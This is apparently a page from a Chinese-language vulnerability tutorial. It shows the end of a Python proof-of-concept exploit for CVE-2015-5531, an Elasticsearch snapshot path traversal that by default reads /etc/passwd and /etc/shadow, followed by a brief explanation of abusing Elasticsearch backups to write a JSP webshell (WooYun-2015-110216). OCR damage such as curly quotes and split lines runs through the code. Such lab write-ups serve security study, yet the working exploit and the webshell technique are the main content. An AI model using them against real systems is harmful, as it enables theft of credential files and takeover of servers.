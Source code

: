 ```
    fpath = [urllib.quote(fp, safe='') for fp in fpath]
    base_url = “http://{0}:{1}/_snapshot/”.format(target, port)
    #create elasticsearch repository for snapshot
    create_repos(base_url)
    #grab files
    for fp in fpath:
        vuln_url = ‘{0}{1}/{2}{3}’.format(base_url, REPO_NAME_LST[0], FCK, fp)
        print colorize_red(urllib.unquote(fp)) + “:\n”
        grab_file(vuln_url)
if __name__ == “__main__”:
    # for global
    FCK = ‘backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..’
    REPO_NAME_LST = ['test11', 'test12']
 
   DATA_REPO_LST = [{"type": "fs", "settings": {"location": 
"/tmp/test30"}}, {"type": "fs", "settings": {"location": 
"/tmp/test30/snapshot-backdata"}}]
    parser = argparse.ArgumentParser(usage=”python cve-2015-5531.py options”,
                                     description=”cve-2015-5531 Vuln PoC”, add_help=True)
    parser.add_argument(‘-t’, ‘–target’, metavar=’TARGET’, type=str, dest=”target”, required=True, help=’eg: 127.0.0.1 or www.baidu.com’)
 
   parser.add_argument(‘-p’, ‘–port’, metavar=’PORT’, dest=’port’, 
type=int, default=9200, help=’elasticsearch port default 9200′)
   
 parser.add_argument(‘–fpath’, metavar=’FPATH’, dest=’fpath’, type=str,
 default=’/etc/passwd,/etc/shadow’, help=’file to grab multi files 
separated by comma ‘)
    args = parser.parse_args()
    try:
        exploit(**args.__dict__)
    except:
        traceback.print_exc()

```

# **[Elasticsearch写入webshell漏洞（WooYun-2015-110216）](https://vulhub.org/#/environments/elasticsearch/WooYun-2015-110216/)**


## **漏洞原理**

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

## **漏洞复现**

> 访问
`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`
这就是我们写入的webshell。
